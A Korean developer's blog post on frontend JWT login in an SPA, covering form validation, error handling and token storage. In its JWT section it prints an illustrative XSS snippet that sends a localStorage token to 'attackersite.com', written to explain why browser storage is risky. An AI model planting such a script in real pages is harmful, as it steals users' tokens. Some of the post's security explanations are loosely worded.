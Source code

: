 ```yaml
---
title: 프론트엔드 - 로그인 구현
---
```


## 들어가며

약 2주간의 고민과 현직자분의 조언, 많은 사람들의 추천을 받은 글 등을 찾아보며 로그인 기능을 구현해보았습니다. 어려움이 많았지만 기능 구현에 성공했기에 의미없는 삽질이 결코 아니었습니다.

로그인 기능을 구현해보며 들었던 생각은 사용자 인증이라는 부분이 개발자가 어떻게 마음먹냐에 따라 구현 난이도가 천차만별이라는 것이었습니다.

국내외 할 것 없이 수십개의 아티클들을 뒤져보았고 발생할 수 있는 시나리오에 대해 많은 생각을 해보았던 것 같습니다. 그 과정에서 부족했던 HTTP 네트워크 기반 지식도 더 학습해볼 수 있었고, 이론만으로 배웠던 부분들을 실제로 적용해보기도 했습니다.

여러 배움이 있었지만 가장 큰 도움이 되었던 부분은 바로 **SPA에 대한 이해라는 것입니다.** 로그인 기능 구현을 JWT 방식을 기반으로 진행하였는데, SPA 어플리케이션에서 토큰을 어떻게 관리해야할지에 대한 고민이 저에게 큰 성장거리를 주었던 것 같습니다.

앞으로 작성할 글은 조금은 긴 호흡으로 작성될 예정입니다. 저의 이해를 모두 풀어서 작성할 것이며, 추후 로그인 기능을 다시 구현하게 될 때에 저 또한 복습을 위해 참고해볼 예정입니다 :)

글은 다음과 같은 순서로 진행됩니다.

1. 프론트엔드에서의 사용자인증 시나리오
2. JWT 이해하기
3. SPA와 전역상태에 대한 이야기
4. 백엔드(장고)와의 협업 이야기
5. etc..

## 프론트엔드에서의 사용자인증 시나리오

JWT기반의 사용자 인증은 서버에서 발급해주는 토큰을 기반으로 이루어집니다.

토큰은 액세스 토큰, 리프레시 토큰 둘로 이루어지며 개인정보 접근을 위한 열쇠의 역할을 액세스토큰이 하게 됩니다.

액세스토큰은 휘발성이며 세션방식의 인증과 반대로 DB에 쌓이지 않습니다. 만료기간이 토큰 내에 설정되어 있고 서버에 요청을 보낼 때에 이를 가지고 접근 허용 여부를 판단하게 됩니다.

토큰은 JSON형식의 정보가 해시값으로 계산되어 반환되고 `exp`과 같은 값들이 만료기간을 나타냅니다. 여러가지 정보들을 포함하여 내보낼 수도 있지만 JWT방식으로 토큰을 주고받을 때에는 예민한 개인 정보들을 포함하지 않습니다.

토큰 인증과 관련된 부분에 있어서 프론트엔드에서**만** 할 수 있는 부분과 백엔드에서**만** 할 수 있는 것들을 구분해야합니다.

### 프론트엔드가 할일 - 유효성 검사

로그인을 예로 들어 아이디와 비밀번호를 입력받은 뒤 POST요청을 보냅니다. 이때 `react-hook-form`과 같은 라이브러리를 활용하면 프론트엔드 자체에서 불필요한 서버로의 요청 수를 줄일 수 있습니다.

비밀번호 입력에 대해 8자 이상, 영문과 특수문자 혼합이라는 규칙이 결정되어 있다면 이는 프론트엔드에서도 정규식을 통해 충분히 유효성 검사를 처리할 수 있는 부분입니다.

데이터 입력과 동시에 **이미 유효하지 않은 데이터임을 알고 있는데도 요청을 보내는 것은 분명 불필요한 네트워크 통신입니다.** 이러한 요청들을 보내기에 앞서 프론트엔드 측에서 요청 자체를 막아버리면 더 바람직할것입니다.

```javascript
<input
    {...register('loginPassword', {
        required: '😭 비밀번호를 입력해주세요!',
        minLength: {
            value: 8,
            message: '😭 비밀번호를 8자 이상 입력해주세요!',
        },
    })}
    placeholder='비밀번호 입력'
    type='password'
/>
```

위와같이 input태그 기본 어트리뷰트인 `minLength`나 `required`등에 대한 규칙을 심어놓고 `react-hook-form`을 사용하면 에러처리가 용이하며 백엔드로의 요청도 `preventDefault`함수 호출로 막을 수 있습니다.

입력 형식과 같은 유효성 검사를 처리하였으면 이후로는 **에러처리가 중요합니다.** 프론트엔드 개발자는 사용자에게 서비스가 어떻게 돌아가고 있는지에 대한 피드백을 적극적으로 제공해야합니다.

로그인에 대한 상황만 가정하더라도 고려해야할 피드백이 다음과 같습니다.

1. 아이디 존재여부
2. 아이디는 존재하는데 비밀번호가 틀림
3. 각종 서버 에러 (500처리 등)

요청이 정상적으로 이루어지고 있는 지 확인하려면 로딩 인디케이터 삽입과 같은 것들도 필요하게 됩니다.

백엔드 개발자와 사전에 협의하여 반환을 원하는 에러코드 및 메세지들을 논의하고, `axios`요청의 catch를 통해 사용자에게 어떤 에러가 발생했는지 알려주어야 합니다.

토큰 저장 및 관리에 대한 이야기는 SPA이야기와 함께 진행하도록 하겠습니다.

## JWT 인증 시나리오

토큰을 어떻게 다뤄야할지 알기 위해서는 JWT를 왜 사용해야 하는 지에 대해 먼저 이해해야합니다.

세션 기반의 인증은 로그인 성공 후 서버측에서 이를 인증하는 정보를 발급하여 저장하고 클라이언트 측에 발급합니다.

로그인 인증정보를 서버 자체에 저장한다는 점에 주목해야합니다. 유저 수가 늘어나고 서버 규모가 커짐에 따라 관리해야할 세션정보가 늘어나며, 서버를 여러대 두고 서비스를 제공할 때에 로드밸런싱으로 사용자를 분배해야하는데 이때 HTTP 무상태성이라는 특징으로 인해 매번 새로 로그인을 해야하게 됩니다. [다음 링크를 참조해주세요.](https://fierycoding.tistory.com/m/69)

이에 반해 JWT방식은 인증정보 저장에 대한 책임을 클라이언트로 넘긴 것이라고 보면 됩니다. 서버는 **발급과 검증만 합니다.**

인증정보의 책임이 클라이언트로 넘어가게 됨으로써 발생할 수 있는 문제는 결국 **탈취에 대한 문제입니다.** 브라우저에 자바스크립트를 통해 접근하여 토큰 탈취 후 마음대로 사용자 인증을 처리하면 모든 정보가 노출되는 것입니다.

우선 클라이언트측에 서버로부터 발급받은 액세스토큰과 리프레시토큰을 저장하는 방법은 다음과 같습니다.

1. 브라우저 자체 localStorage / sessionStorage에 저장
2. 쿠키 및 브라우저 메모리에 저장

브라우저 스토리지에 저장하게 되면 XSS공격에 노출되기 쉽습니다. 아래 예시 코드를 서버에 요청하게 되면 XSS 공격자 브라우저에 토큰이 노출됩니다.

```html
<script>
    document.write(
        "<img src='http://attackersite.com?cookie=" +
            localStorage.getItem('foo') +
            "'>"
    );
</script>
```

세션스토리지는 탭을 닫으면 스토리지에 저장된 데이터들이 사라진다 뿐이지 로컬스토리지와 동작 방식과 메서드도 동일합니다. 동일하게 XSS공격에 노출됩니다.

쿠키의 경우에는 CSRF공격에 대해 취약점이 존재합니다. `document.cookie`를 통해 쿠키에 저장된 값들에 자바스크립트로 접근할 수 있기 때문에 토큰값을 탈취당할 위험성이 존재합니다. 크로스-사이트간 취약점이 존재하는 것입니다.

이에 대한 해결책으로 httpOnly속성을 쿠키에 추가하여 서버와 쿠키를 주고받게 되면 브라우저 자바스크립트로 쿠키에 접근할 수 없게 됩니다.

아무리 쿠키를 통한 인증방식을 택하더라도 쿠키 자체에 액세스토큰을 노출시키는 것은 안전하지 않습니다. 따라서 **쿠키에는 리프레시 토큰만 저장하고 액세스토큰은 브라우저 메모리 상에 저장합니다.**

## Reference

1. [세션과 토큰의 차이점](https://fierycoding.tistory.com/m/69)
2. [Is a Refresh Token really necessary when using JWT token authentication? - stackoverflow](https://stackoverflow.com/questions/32060478/is-a-refresh-token-really-necessary-when-using-jwt-token-authentication)
3. [Velog - 프론트엔드에서 로그인 안전하게 처리하기](https://velog.io/@yaytomato/%ED%94%84%EB%A1%A0%ED%8A%B8%EC%97%90%EC%84%9C-%EC%95%88%EC%A0%84%ED%95%98%EA%B2%8C-%EB%A1%9C%EA%B7%B8%EC%9D%B8-%EC%B2%98%EB%A6%AC%ED%95%98%EA%B8%B0)
4. [XSS와 CSRF의 차이](https://lucete1230-cyberpolice.tistory.com/23)
5. [A Journey in Security](http://michael-coates.blogspot.com/2010/07/html5-local-storage-and-xss.html)
6. [CSRF protection with JSON web tokens](https://stackoverflow.com/questions/35291573/csrf-protection-with-json-web-tokens)
